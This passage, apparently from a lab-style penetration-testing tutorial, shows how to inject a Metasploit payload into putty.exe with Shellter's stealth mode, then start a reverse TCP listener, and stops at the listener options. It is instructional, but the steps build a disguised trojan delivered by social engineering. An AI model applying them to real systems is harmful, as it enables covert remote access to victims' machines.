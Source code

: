 ### Download an executable application

This executable application will carry the “malicious” payload. We are going to use [putty.exe](https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe). (32 bit version)

### Inject Encoded Payload into Putty With Shellter

This will inject our Metasploit generated payload into the `putty.exe` application.

#### Run Shellter

`shellter`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d111e274-c12d-40ea-9613-5cff41d749ce/Untitled.png)

Select the Auto operation: A

Select the PE Target: location of `putty.exe` that was downloaded.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9c528c1a-6469-4fd2-8dea-2a192cf619bf/Untitled.png)

Wait… this takes time!

Select Enable Stealth Mode = Y

Use a custom payload = C

Select the location of the payload that was previously created with Metasploit (`/home/kali/Desktop/PhotoEditor.raw`).

Answer that this is not a reflective DLL loader, choosing the option N.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/23bb1608-54ba-4fd8-9c92-36e3981537bf/Untitled.png)

Wait until the end of the process!

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dd043aa1-408a-4430-bce3-5cb16533926d/Untitled.png)

You now have a `putty.exe` file properly injected with the payload.

Now you have to **copy** the `putty.exe` to the **Windows machine**. This is the part where some attacker would have to do some social engineering.

### Create a Metasploit reverse listener

This process will create on Metasploit a reverse TCP listener that will sit and wait for remote connections - hopefully from our “malicious” payload.

#### Start Metasploit

`msfconsole`

#### Select the module

`use exploit/multi/handler`

`options`
